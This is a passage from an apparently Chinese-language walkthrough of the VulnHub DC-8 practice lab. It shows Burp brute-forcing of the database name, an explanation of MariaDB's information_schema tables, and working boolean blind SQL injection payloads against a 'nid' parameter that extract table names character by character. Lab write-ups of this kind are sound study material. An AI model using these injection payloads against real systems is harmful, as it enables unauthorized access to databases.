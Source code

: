 首先在burp中修改上面语句后，选择两个攻击位置，并选择`cluster`爆破，再针对每一个攻击位置，设置对应的数据进行爆破即可

设置第一个参数为数字范围`1-4`

![](D:\stu\vulnhub\DC靶场\pic-8\12.jpg)

设置第二个参数为小写英文+数字，当然也可以自己加上大写字母，以及各种其他字符

![13](D:\stu\vulnhub\DC靶场\pic-8\13.jpg)

开始攻击，最终发现数据库名称为`d7db`

![](D:\stu\vulnhub\DC靶场\pic-8\14.jpg)

前面已经知道数据库为`mariadb`，`ai`搜索，这是`mysql`的一个分支，大部分都是相似的，并且有`information_schema`这个数据库，该数据库中的表`schemata`，包括其他所有的数据库名称(`schema_name`)

并且还有一个表`tables`包括表所属的数据库（`table_shema`）、表名（`table_name`）

还有表`columns`包含列所属的表（`table_shema` 和 `table_name`）、列名（`column_name`）

前面获取的数据库名称`d7db`，可以有下面的结构

```shell
information_schema
----schemata
--------schema_name				d7db可以在这里

----tables
--------table_name
--------table_schema			d7db可以在这里

----columns
--------table_name
--------table_schema			d7db可以在这里
--------column_name

所以可以理清了吧
```

## 布尔盲注脚本编写

构造语句，不过下面的爆破在虚拟机`kali`中进行，我的电脑不行，所以下面采用写代码的形式进行

```shell
/?nid=1 and if(length((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())))=1,1,0)--+

/?nid=1 and if(substring((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())),1,1)='s',1,0)--+ 

#看着是不是感觉很长，这里其实拆解后，很好理解的
#首先就是()，在sql中，具有优先权的，所有在原本的sql语句中，使用()，优先执行这里的语句，也就是select
#然后在每一个中，用()包括，也是为了防止出错，只是()太多，眼看很难受
#总体语句就是测试数据库d7db中的表名的每一位字符
```
